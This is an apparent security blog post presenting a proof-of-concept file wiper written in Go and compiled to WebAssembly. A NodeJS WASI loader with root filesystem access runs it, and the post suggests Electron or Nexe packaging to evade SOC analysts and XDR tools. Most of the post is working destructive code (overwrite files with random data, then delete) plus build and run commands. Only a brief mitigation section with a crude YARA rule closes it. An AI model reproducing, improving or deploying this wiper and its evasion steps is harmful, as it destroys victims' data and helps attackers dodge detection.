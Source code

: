 +++
date = '2025-03-31T19:41:01+02:00'
draft = false
title = '🐙 Wasiwiper: WASM for Stealth Offensive Security'
+++

![wasmlogo](https://miro.medium.com/v2/resize:fit:612/1*igmwlOsICf5E1oNVyUZhoQ.png)

Yesterday, I was experimenting with the WASM technology in one of my gazillion side-projects. WASM stands for **WebAssembly** and is a binary instruction format that allows compiling and executing non-browser code in a browser environment. **Think of running C or C++ in your Browser**. I have used this technology for one project that I built using Rust.

Today morning It struck me with it... I had an insaneeee idea. What if we could write native malware using a backend language such as Golang or Rust and let it run in the browser without the os ever noticing that we are running native code in a browser-subprocess. So here am I yet again trying to pitch you another exotic malware method 😂. The plan is to write a primitive wiper that is supposed to use high-level Microsoft OS APIs and simply disk i/o to wipe files and overwrite them effectively using rand data.

## Part 1: Building the malware in the Host Language

For this PoC I will resort to building the wiper in Golang since it is super easy to compile to WASM. Here is the code for now:

```golang
package main

import (
	"crypto/rand"
	"os"
)

func wipe(filePath string) error {
	file, err := os.OpenFile(filePath, os.O_WRONLY, 0644)
	if err != nil {}
	defer file.Close()
	fileInfo, err := file.Stat()
	if err != nil {}
	size := fileInfo.Size()
	randomData := make([]byte, size)
	_, err = rand.Read(randomData)
	if err != nil {}
	_, err = file.WriteAt(randomData, 0)
	if err != nil {}
	file.Sync()
	file.Close()
	return os.Remove(filePath)
}

func main() {
	wipe("somedirectory")
}
```

As you see, this wiper is supeer primitive and will not be usable for a real-life full-scale attack. 

We now need to compile it down to the WASM target using the golang compiler. Parallely I will strip the debug symbols to shrink the resulting binary and make the life of a SOC Analyst harder.

```bash
GOOS=wasip1 GOARCH=wasm go build -o wiper.wasm -ldflags="-s -w"
```

After roughly a second or two, I was left with a neat wiper.wasm file. This is it. This is the bytecode that we technically could directly run using a WASM runtime. What we will do instead is, we will load the wasm file using a custom **NodeJS** script that will run on the victims host machine and which in its own turn will call the exported golang wiper functionality.

## Part 2: NodeJS Client-Side Loader

Here is a simply NodeJS wasm loader. I will facilitate the **WASI Runtime** which allows us to run wasm bytecode.

```javascript
const { WASI } = require('wasi');
const fs = require('fs');

const wasi = new WASI({
  version: 'preview1',
  args: process.argv,
  env: process.env,
  preopens: { '/': '/' } });
const wasmBuffer = fs.readFileSync('./wiper.wasm');

(async () => {
  const { instance } = await WebAssembly.instantiate(wasmBuffer, { wasi_snapshot_preview1: wasi.wasiImport });
  wasi.start(instance);
})();
```

We can run this using the following:

```bash
node loader.js
```

And we see, that it starts wiping out files from dirs where it has access to.

## Part 3: Delivery

Obviously we can not run this without including a NodeJS runtime in the payload. So we will simply package the NodeJS loader into something like [Electron](https://www.electronjs.org/) or [Nexe](https://github.com/nexe/nexe) to produce a standalone binary.

## Concluding

I think WASM malware can be very interesting since the processes will monitored as a browser / nodejs process. Obviously these kind of threats are very rare but still very stealthy since SOC Analysts and XDRs are used to native binary formats on not something like WASM. If additionally to stripping the debug symbols, we would have obfuscated the original golang code, this could add another layer of stealthyness to the wiper.

## Mitigation

I have no fu*cking idea on how you wanna mitigate this. Maybe you can and most likely want to block ElectronJS and NodeJS apps?. Or maybe your XDR can detect WASM binaries that are loaded in-memory. If so, apply these changes now! If not... well fuck. In this case simply use this YARA-Rule to adapt your IPS to.:

```bash
rule Detect_WASM {
    meta:
        description = "Detects potentially malicious WebAssembly (WASM) binaries"
        author = "Timo Sarkar"
        date = "2025-03-31"
        version = "1.0"
    strings:
        $wasm_magic = { 00 61 73 6D }
    condition:
        $wasm_magic
}
```